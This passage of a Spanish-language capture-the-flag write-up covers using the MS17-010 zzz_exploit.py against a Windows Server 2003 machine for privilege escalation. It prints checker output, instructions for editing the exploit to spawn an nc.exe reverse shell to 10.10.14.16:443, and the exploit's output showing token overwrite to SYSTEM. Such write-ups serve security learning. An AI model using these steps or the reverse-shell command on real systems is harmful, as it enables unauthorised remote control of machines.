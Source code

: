 Nos metemos en la carpeta y corremos el archivo `checker.py` para validar si la máquina es vulnerable:

```bash
❯ python checker.py 127.0.0.1
Target OS: Windows Server 2003 R2 3790 Service Pack 2
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (32 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (32 bit)
browser: STATUS_OBJECT_NAME_NOT_FOUND
```

Vemos que tiene la leyenda ***OK (32 bit)*** para los *named pipes* **samr** y **lsarpc**; es decir, podemos ejecutar el exploit en la máquina, que para este caso, ocuparemos el `zzz_exploit.py` modificandolo un poco. Las modificaciones que haremos serán las siguientes:

- En la función `def smb_pwn(conn, arch):` comentaremos las siguientes lineas:
  - \#print('creating file c:\\pwned.txt on the target')
  - \#tid2 = smbConn.connectTree('C$') 
  - \#fid2 = smbConn.createFile(tid2, '/pwned.txt')
  - \#smbConn.closeFile(tid2, fid2)
  - \#smbConn.disconnectTree(tid2)
 - Descomentamos la siguiente linea:
   - service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
 - Y la cambiamos a entablarnos una reverse shell con `nc.exe`:
   - service_exec(conn, r'cmd /c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.16 443')
 
Con esto, lo único que nos falta es ponernos en escucha por el puerto 443 y ejectuar el exploit:

```bash
❯ python zzz_exploit.py 127.0.0.1 samr
Target OS: Windows Server 2003 R2 3790 Service Pack 2
Groom packets
attempt controlling next transaction on x64
attempt controlling next transaction on x86
success controlling one transaction
Target is x86
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x85115d48
SESSION: 0xe39c0010
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe3c54878
userAndGroupCount: 0x5
userAndGroupsAddr: 0xe3c54918
overwriting token UserAndGroups
Opening SVCManager on 127.0.0.1.....
Creating service SRsC.....
Starting service SRsC.....
The NETBIOS connection with the remote host timed out.
Removing service SRsC.....
ServiceExec Error on: 127.0.0.1
Unexpected answer from server: Got 46, Expected 47
Done
```

